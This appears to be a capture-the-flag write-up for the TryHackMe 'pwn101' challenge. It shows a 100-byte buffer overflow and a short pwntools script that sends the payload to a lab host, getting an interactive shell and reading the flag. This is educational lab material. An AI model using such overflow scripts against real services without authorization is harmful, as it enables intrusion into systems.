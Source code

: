 Let's generate 100 A's and see if it overflows the buffer

```shell
pl4int3xt@archlinux ~/D/p/pwn101 [124]> python -c 'print ("A"*100)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

The A's worked from the local binary

```shell
pl4int3xt@archlinux ~/D/p/pwn101> ./pwn101.pwn101
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 101          

Hello!, I am going to shopping.
My mom told me to buy some ingredients.
Ummm.. But I have low memory capacity, So I forgot most of them.
Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D

Type the required ingredients to make briyani: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thanks, Here's a small gift for you <3
sh-5.2$ ls
payload  pwn101.pwn101	pwn101.py
sh-5.2$
```

Let's create a script to automate that

```python
from pwn import *

io = remote(sys.argv[1], sys.argv[2])
io.sendlineafter(b':', b"A"*100)
io.interactive()
```

We get a shell in the system since the code calls `/bin/sh` after the overflow

```shell
pl4int3xt@archlinux ~/D/p/pwn101 [1]> python3 pwn101.py 10.10.95.255 9001
[+] Opening connection to 10.10.95.255 on port 9001: Done
[*] Switching to interactive mode
Type the required ingredients to make briyani: 
Thanks, Here's a small gift for you <3
$ ls
flag.txt
pwn101
pwn101.c
$ cat flag.txt
THM{REDACTED..}
$ 
```
